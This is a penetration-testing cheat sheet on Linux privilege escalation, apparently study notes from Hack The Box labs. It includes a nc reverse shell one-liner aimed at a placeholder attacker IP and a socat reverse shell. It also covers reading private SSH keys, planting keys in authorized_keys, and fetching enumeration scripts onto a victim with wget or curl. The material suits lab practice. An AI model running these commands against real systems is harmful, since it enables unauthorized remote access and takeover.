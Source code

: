 # Privilege Escalation  😈

### LinPEAS

* You can check it on it's github page. <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">Here</a> .

### WinPEAS

* It's the same idea as linPEAS but for Windows. There's also one for mac.   

### LinEnum   
* You can also check it's github page <a href="https://github.com/rebootuser/LinEnum">Here</a> .

### Linux-Smart-Enumeration
* Check out the github page right <a href="https://github.com/diego-treitos/linux-smart-enumeration">here</a>.

### Pspy   

### Exploits on ExploitDB
* Exploits are saved in the following path `/usr/share/exploitdb/exploits`


### Most Reliable Reverse Shell Payload  
	```console
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTACKER'S IP ADDRESS] [PORT OF THE ATTACKER'S CHOOSING] >/tmp/f
	```

### Spawn a Shell When Connecting to a Reverse Shell   
	```console
	python -c 'import pty;pty.spawn("/bin/bash");'

	//or

	python3 -c 'import pty;pty.spawn("/bin/bash");'
	```

### Upgrade the Reverse Shell   

* Using Python for a psuedo terminal  
	```console
	python -c 'import pty; pty.spawn("/bin/bash")'
	``` 

* Using `socat` instead of `nc`  

	```console
	#Listener
	socat file:`tty`,raw,echo=0 tcp-listen:4444

	#Victim  
	socat exec:'bash -li',pty,stderr,setsid,sane tcp:10.0.3.4:4444
	```  

* Using stty options (Never Worked With Me) 
	```console
	# In reverse shell 
	python -c 'import pty; pty.spawn("/bin/bash")'
	ctrl-z  

	# In Kali 
	stty raw -echo  
	fg

	# In reverse shell
	reset
	export ShELL=bash
	export TERM=xterm-256color
	stty row <num> columns <cols>
	```

* If we type `stty -a` it will give me info and I can get the rows and columns from there.
* I can also echo the $TERM variable and put its value in the reverse shell as the value I have on my Kali.  

### Sudo & Sudoers   

* We can use `sudo` to give the current user privilege to do something as another user as follows `sudo -u [USERNAME] [COMMAND]` by default without the `-u` option it gives the user root privilege if the user was in the sudoers file, which also can't be accessed unless the user had privilege to access it.
* To check if the user have access to use sudo, especially that sometimes a user can have access to sudo a specific command and not everything, we can use this command `sudo -l` which should open the sudoers file unless we don't have privilege to do so.   
* With regard to privilege escalation we can also exploit the sudo command itself by checking if it's version have any already existing exploits. I can get the version in multiple ways and one of these ways is to when using linPEAS.



### When Using gcc  
* The option `-Wall` is a warning option.

### SSH Keys   

* We can use ssh keys to privesc  

```console
Shatha Barqawi@htb[/htb]$ vim id_rsa
Shatha Barqawi@htb[/htb]$ chmod 600 id_rsa
Shatha Barqawi@htb[/htb]$ ssh user@10.10.10.10 -i id_rsa

root@remotehost#
```  

* This ssh key can be found in the following path if I have access to it `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`.

<blockquote>
Note that we used the command 'chmod 600 id_rsa' on the key after we created it on our machine to change the file's permissions to be more restrictive. If ssh keys have lax permissions, i.e., maybe read by other people, the ssh server would prevent them from working.
</blockquote>   

* We can also put our public key in the directory `/home/user/.ssh/authorized_keys` if we have the permissions to do so. How to do that?  

* Create key on my machine 
	```console
	Shatha Barqawi@htb[/htb]$ ssh-keygen -f key
	```
* This will create two file `key` (which we will use with `ssh -i`) and `key.pub`(which we will copy to the remote machine).

### Transferring Files  

1. Using `wget`  
* We run a Python HTTP server on our machine and wget or cURL on the victim to download the file   

* On my machine
  ```console
  Shatha Barqawi@htb[/htb]$ cd /tmp
  Shatha Barqawi@htb[/htb]$ python3 -m http.server 8000

  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
  ```

* On victim  
  ```console
  user@remotehost$ wget http://10.10.14.1:8000/linenum.
  ```  
  OR   
  ```console
  user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
  ```  

2. Using `scp`  

	```console
	scp [PATH TO FILE ON MY SYSTEM] [USERNAME]@[TARGET IP]:[PATH ON TARGET TO TRANSFER FILE TO]
	```

3. Using `base64`  
* In some cases, there might be firewall protections that prevent us from downloading a file from our machine. In such case we can use `base64` and encode the file into base64 format and then copy/paste the base64 string to the remote server and decode it there.   
  ```console
  Shatha Barqawi@htb[/htb]$ base64 shell -w 0
  ```  

  ```console
  user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
  ```  

* To check that we didn't miss anything up during the encoding/deconding process we can use the command `md5sum [FILENAME]` on both machines and check if they're equal.  


### The Shells on Victims   
* We can find the shells that can be used on the victim's machine with the following command in the following file   `cat /etc/shells`.

### The `tee` Command

* Store the output of a command in a file with the following command `[COMMAND] | tee [FILE NAME]`.   

### The `dpkg -l`  Command   
* Shows the packages and libraries on the system.
* Is it exclusively used on Debian based Linux? Seems so -- not sure tho.🤔











